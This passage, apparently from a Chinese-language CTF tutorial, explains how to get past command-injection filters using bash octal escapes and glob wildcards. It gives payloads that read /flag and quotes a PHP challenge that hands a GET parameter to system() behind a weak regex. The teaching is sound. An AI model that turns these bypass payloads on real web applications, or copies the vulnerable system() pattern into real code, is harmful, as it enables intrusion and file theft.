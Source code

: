 没有过滤 a 这个字符，可以采用通配符

### 方法一：八进制

我们发现$和数字没被过滤，想到了八进制绕过

知识点：linux中使用`$'xxx'`（xxx为字符的八进制）的形式可以执行任意代码

例题：[XYCTF2024]ezRCE

payload：

```
?cmd=$'\154\163'    //执行ls指令，没看到flag

?cmd=$'\154\163' $'\57'  //执行ls /指令，看到有flag文件

?cmd=$'\143\141\164' $'\57\146\154\141\147'   //cat /flag
```

### 方法二：通配符

`/bin`这个目录。

`bin`为`binary`的简写，主要放置一些 系统的必备执行档例如:cat、cp、chmod df、dmesg、gzip、kill、ls、mkdir、more、mount、rm、su、tar、base64等

缺陷：只能盲猜flag位置

payload：

```
?cmd=/???/?a? /??a?     //执行/bin/cat /flag指令
```

----

# Level 7 - 空格过滤

### 代码审计

```php
<?php 

function hello_shell($cmd){
    if(preg_match("/flag| /", $cmd)){
        die("WAF!");
    }
    system($cmd);
}

isset($_GET['cmd']) ? hello_shell($_GET['cmd']) : null;

highlight_file(__FILE__);


?>
```
